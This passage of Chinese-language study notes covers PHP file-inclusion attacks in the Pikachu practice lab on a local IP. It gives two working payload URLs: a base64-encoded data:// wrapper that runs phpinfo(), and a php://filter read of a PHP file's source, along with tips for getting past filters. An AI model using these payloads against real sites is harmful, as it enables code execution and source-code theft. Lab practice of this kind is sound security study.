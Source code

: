   ```
    data://text/plain;base64,
    ```

  - ![image-20220826225656618](assets/image-20220826225656618.png)

  - 如果有过滤还可以使用base64

  - ```
    http://192.168.2.195/pikachu-master/pikachu-master/vul/fileinclude/fi_remote.php?filename=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%47%68%77%61%57%35%6d%62%79%67%70%4f%7a%38%2b&submit=Submit+Query
    ```

    - 这里需要注意编码，先将php代码用base64编码一下然后再用url编码编码一下，不然可能会报错，比如+号直接写在url上可能不会自动编码

  - ![image-20220826225838629](assets/image-20220826225838629.png)

## 2.3-读取源码

- 这里还是用到伪协议，因为比较重要所以单独列出来

- php://filter/:该协议的参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递

- 一般使用方法

  - php:/filter/read=convert.base64-encode/resource=target file

- 一般情况下我们包含了php文件会直接执行，不会显示出源码，因此当我们需要读取源码的时候可以用到fileter协议

- 这里我们读取一些fileinclude.php的源码

- pyaload:

- ```
  http://192.168.2.195/pikachu-master/pikachu-master/vul/fileinclude/fi_remote.php?filename=php://filter/read=convert.base64-encode/resource=fileinclude.php&submit=Submit+Query
  ```

  
